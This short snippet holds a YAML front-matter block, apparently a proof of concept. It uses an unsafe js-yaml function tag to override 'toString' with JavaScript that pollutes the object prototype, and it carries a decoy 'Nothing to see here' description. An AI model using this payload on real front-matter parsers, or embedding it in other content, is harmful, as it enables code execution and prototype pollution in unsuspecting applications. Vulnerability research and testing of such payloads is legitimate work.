 ```yaml
---
toString: !<tag:yaml.org,2002:js/function> "function(){return (console.log(__proto__.polluted='yes'))}"
description: Nothing to see here
---
```

